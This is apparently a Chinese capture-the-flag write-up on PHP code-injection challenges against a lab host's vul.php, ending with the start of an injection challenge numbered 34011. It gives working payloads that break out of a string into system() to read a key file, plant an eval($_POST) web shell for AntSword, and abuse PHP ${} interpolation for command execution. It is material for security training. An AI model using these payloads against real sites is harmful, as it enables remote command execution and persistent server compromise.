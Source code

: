 ![image-20241126114714532](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126114714532.png)

一、直接读文件

```
http://11.1.10.12:34234/start/vul.php?a=");system("cat key4.php");%23    
```

![image-20241126115042802](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126115042802.png)

二、传木马用蚁剑连接

```
?a=");eval($_POST['x']);%23
```

![image-20241126115429079](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126115429079.png)

#### 方法二、php双引号解析特性

原理：

![image-20241126120250700](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126120250700.png)

可以直接利用{}组来进行命令执行 `$o=strtolower("${system('ls')}")`

```
http://11.1.10.12:34234/start/vul.php?a=${system('ls')}
```

![image-20241126120904773](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126120904773.png)

接下来步骤同上

```
http://11.1.10.12:34234/start/vul.php?a=${system('cat key4.php')}
```

## 34011 - 34015

### 34011 注入

![image-20241126121735046](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126121735046.png)

尝试逻辑，注册和登录页面都成功没有报错，验证不同账户的发表页面

![image-20241126142438861](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126142438861.png)

![image-20241126142914596](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126142914596.png)

![image-20241126143734275](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126143734275.png)

![image-20241126143810418](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126143810418.png)

```
发表正常账号+正常留言    成功

发表正常账号+异常留言    失败

发表异常账号+异常留言    失败

发表异常账号+正常留言    失败
```
